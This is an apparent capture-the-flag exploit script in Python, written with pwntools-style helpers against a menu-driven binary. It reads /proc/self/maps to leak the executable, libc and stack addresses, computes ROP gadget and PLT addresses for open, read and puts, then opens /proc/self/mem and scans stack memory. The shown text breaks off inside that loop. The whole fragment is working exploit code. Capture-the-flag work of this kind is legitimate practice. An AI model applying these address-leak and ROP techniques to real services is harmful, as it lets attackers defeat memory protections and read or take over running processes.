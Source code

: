 ```python
def loc(offset):
	sla('5.Exit\n', '2')
	sla('?', str(offset))
	
def get(length):
	sla('5.Exit\n', '3')
	sla('?', str(length))

def giv(text):
	sla('5.Exit\n', '4')
	sla('?', text)

def q(text):
	sla('5.Exit\n', '5')

#--------------------------Exploit--------------------------
def exploit():

	sla('?', 'y')

	#leaking base addr
	p = '/proc/self/maps'
	fid(p)
	get(1500)

	ru('You get something:\n')
	exe_base = int(r(12), 16)
	ru('[heap]\n')
	stack_start = int(r(12), 16)
	ru('-')
	stack_end =   int(r(12), 16)

	ru('rw-p 00000000 00:00 0 \n')

	libc_base = int(r(12), 16)
	li('exe_base  ' + hex(exe_base))
	li('libc_base ' + hex(libc_base))

	li('stack_start ' + hex(stack_start))
	li('stack_end   ' + hex(stack_end))

	pop_rdi_ret_offset = 0x1823
	pop_rsi_r15_ret_offset = 0x1821
	pop_rdi_ret = exe_base + pop_rdi_ret_offset
	pop_rsi_r15_ret = exe_base + pop_rsi_r15_ret_offset
	open_plt = exe_base + exe.plt['open']
	read_plt = exe_base + exe.plt['read']
	puts_plt = exe_base + exe.plt['puts']

	#position stack addr
	offset = 0xf800000
	li('debug---------------')
	#begin_offset ~ stack_end
	stack_begin_offset = stack_end - offset - 24 * 100000
	li('stack_begin_offset ' + hex(stack_begin_offset))
	li('stack_end   ' +        hex(stack_end))

	fid('/proc/self/mem')
	loc(stack_begin_offset)
	# searching
	for i in range(0, 24):
		get(100000)
		text = ru('1.Find something')
```